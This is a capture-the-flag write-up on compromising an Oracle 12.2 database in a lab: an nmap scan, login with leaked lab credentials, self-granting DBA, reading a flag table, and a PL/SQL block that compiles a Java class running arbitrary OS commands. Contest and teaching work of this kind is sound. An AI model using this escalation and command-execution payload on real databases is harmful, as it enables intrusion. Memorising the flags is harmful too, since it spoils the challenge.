 # Nmap

After a quick nmap scan, there is an [Oracle TNS Listener](https://docs.oracle.com/cd/E26401_01/doc.122/e22952/T156458T659598.htm) server version `12.2.0.1.0` running on the port.

```bash
nmap -Pn -n -sV -p1521 --script=oracle* 10.10.3.11
```

```
PORT     STATE SERVICE    VERSION
1521/tcp open  oracle-tns Oracle TNS listener 12.2.0.1.0 (unauthorized)
```

# Database access

There were some [boss_note.txt](../Pentest_Princess/workdir/boss_note.txt) found earlier on Princess with credentials. See [Princess challenge (SPOILER)](../Pentest_Princess/WRITEUP.md#spoiler) for details.

```
DB_PDB=ORCLEPDB1
DB_DOMAIN=awesome-corp.com
DB_USER=WilfredWarrior
DB_PASS=Pp59if6gjsXWiCQTRP3Y
```

Using [Oracle Instant client](https://www.oracle.com/database/technologies/instant-client/downloads.html) (sqlplus) or [SQL Developer](https://www.oracle.com/database/sqldeveloper/technologies/download/) (in this case version 17) can be used as client for the database.

This might help to get them work under linux: <https://docs.metasploit.com/docs/using-metasploit/other/oracle-support/>.

The credentials can be used to log in.

```bash
sqlplus 'WilfredWarrior/Pp59if6gjsXWiCQTRP3Y@10.10.3.11:1521/ORCLEPDB1.awesome-corp.com'
```

# Database content

Checking our tables and permissions, it can be seen that it is limited.

![](screenshots/1.png)

We do have `GRANT` permission, so we can simply give `DBA` (database administrator) permission as well.

![](screenshots/2.png)

After a relog, we have way more permissions now.

![](screenshots/3.png)

Looking for tables with flag, there is one that stands out: `SYS.FLAG`.

![](screenshots/4.png)

The table has the flag.

![](screenshots/5.png)

# Flag db
`{HCSC}-Th!s_1S-th3:Fl@g;4-Sy5!!4`

# RCE

As we are already DB admins, there are multiple ways to run code in the Oracle database: java, external table, scheduler.

The following PL/SQL block runs slowly, seemingly freezing the client, but actually the server was working on it.

For the java solution, there is an extra permission we don't have with DBA yet. Running this PL/SQL block grants it.

```sql
BEGIN
dbms_java.grant_permission( 'WILFREDWARRIOR', 'SYS:java.io.FilePermission', '<<ALL FILES>>', 'execute' );
END;
/
```

After this, our code that runs anything can be written. <https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#oracle>.

```sql
BEGIN
EXECUTE IMMEDIATE 'create or replace and compile java source named "PwnUtil" as import java.io.*; public class PwnUtil{ public static String runCmd(String args){ try{ BufferedReader myReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(args).getInputStream()));String stemp, str = "";while ((stemp = myReader.readLine()) != null) str += stemp + "\n";myReader.close();return str;} catch (Exception e){ return e.toString();}} public static String readFile(String filename){ try{ BufferedReader myReader = new BufferedReader(new FileReader(filename));String stemp, str = "";while((stemp = myReader.readLine()) != null) str += stemp + "\n";myReader.close();return str;} catch (Exception e){ return e.toString();}}};';
END;
/
 
BEGIN
EXECUTE IMMEDIATE 'create or replace function PwnUtilFunc(p_cmd in varchar2) return varchar2 as language java name ''PwnUtil.runCmd(java.lang.String) return String'';';
END;
/
```

Using the created function, anything can be executed now.

![](screenshots/6.png)

# Flag rce
`{HCSC}-0r@cl3_Loc4l:fl@g-w!lfrED`